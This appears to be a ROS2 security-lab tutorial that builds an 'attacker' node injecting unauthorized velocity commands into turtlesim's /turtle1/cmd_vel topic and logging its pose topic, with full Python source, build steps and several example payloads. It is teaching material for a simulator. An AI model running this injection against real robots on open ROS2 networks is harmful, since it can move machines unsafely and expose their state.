







# Custom ROS2 Attacker Node

Build a custom ROS2 node that performs two actions:

1. Publishes unauthorized movement commands to `/turtle1/cmd_vel`
2. Subscribes to `/turtle1/pose` to observe leaked state data

## Implementation

Create package:

```bash
ros2 pkg create cmd_vel_attacker \
  --build-type ament_python \
  --dependencies rclpy geometry_msgs turtlesim
```



Create attacker node:

```bash
nano ros2sec_ws/src/cmd_vel_attacker/cmd_vel_attacker/attacker.py
```

```python
#!/usr/bin/env python3

import argparse

import rclpy
from rclpy.node import Node
from geometry_msgs.msg import Twist
from turtlesim.msg import Pose


class CmdVelAttacker(Node):
    def __init__(self, target_topic: str, linear_x: float, angular_z: float, interval: float):
        super().__init__("cmd_vel_attacker")

        self.target_topic = target_topic
        self.linear_x = linear_x
        self.angular_z = angular_z

        self.publisher = self.create_publisher(Twist, self.target_topic, 10)

        self.pose_subscriber = self.create_subscription(
            Pose,
            "/turtle1/pose",
            self.pose_callback,
            10,
        )

        self.timer = self.create_timer(interval, self.publish_cmd)

        self.get_logger().info("CmdVel attacker node started")
        self.get_logger().info(f"Target topic: {self.target_topic}")
        self.get_logger().info(f"Payload: linear.x={self.linear_x}, angular.z={self.angular_z}")

    def publish_cmd(self):
        msg = Twist()
        msg.linear.x = self.linear_x
        msg.linear.y = 0.0
        msg.linear.z = 0.0
        msg.angular.x = 0.0
        msg.angular.y = 0.0
        msg.angular.z = self.angular_z

        self.publisher.publish(msg)

        self.get_logger().info(
            f"Injected Twist -> {self.target_topic}: "
            f"linear.x={msg.linear.x}, angular.z={msg.angular.z}"
        )

    def pose_callback(self, msg: Pose):
        self.get_logger().info(
            f"Leaked pose: x={msg.x:.2f}, y={msg.y:.2f}, "
            f"theta={msg.theta:.2f}, linear_velocity={msg.linear_velocity:.2f}, "
            f"angular_velocity={msg.angular_velocity:.2f}"
        )


def main():
    parser = argparse.ArgumentParser(description="ROS2 /cmd_vel attacker node")
    parser.add_argument("--topic", default="/turtle1/cmd_vel", help="Target cmd_vel topic")
    parser.add_argument("--linear-x", type=float, default=2.0, help="Forward velocity")
    parser.add_argument("--angular-z", type=float, default=2.0, help="Rotational velocity")
    parser.add_argument("--interval", type=float, default=0.5, help="Publish interval in seconds")

    args = parser.parse_args()

    rclpy.init()

    node = CmdVelAttacker(
        target_topic=args.topic,
        linear_x=args.linear_x,
        angular_z=args.angular_z,
        interval=args.interval,
    )

    try:
        rclpy.spin(node)
    except KeyboardInterrupt:
        pass
    finally:
        node.destroy_node()
        rclpy.shutdown()


if __name__ == "__main__":
    main()
```

### Register Console Command

Update `entry_points` in `setup.py`:

```python
entry_points={
    'console_scripts': [
        'attacker = cmd_vel_attacker.attacker:main',
    ],
},
```
Package structure:



### Build Package

```bash
cd ros2-security-lab/ros2sec_ws
source /opt/ros/humble/setup.bash
colcon build
```

After successful build:

```bash
source install/setup.bash
```



Check command exists:

```bash
ros2 run cmd_vel_attacker attacker --help
```



### Run Attack

Terminal 1:

```bash
ros2 run turtlesim turtlesim_node
```

Terminal 2 (control turtle):

```bash
source install/setup.bash

ros2 run cmd_vel_attacker attacker
```

Result:



The turtle moves automatically.
The attacker logs pose data from /turtle1/pose.

Example different payload:

Fast forward:

```bash
ros2 run cmd_vel_attacker attacker --linear-x 5.0 --angular-z 0.0
```

Spin in place:

```bash
ros2 run cmd_vel_attacker attacker --linear-x 0.0 --angular-z 5.0
```

Slow circular movement:

```bash
ros2 run cmd_vel_attacker attacker --linear-x 1.0 --angular-z 1.0 --interval 0.2
```

Stop payload:

```bash
ros2 run cmd_vel_attacker attacker --linear-x 0.0 --angular-z 0.0
```

While attacker is running, list nodes:



`/cmd_vel_attacker` is the attacker node we've created.

```bash
ros2 node info /cmd_vel_attacker
```



## Result

The custom attacker node successfully controlled the turtle by publishing Twist messages to /turtle1/cmd_vel.

The same node also subscribed to /turtle1/pose and logged position/state data.
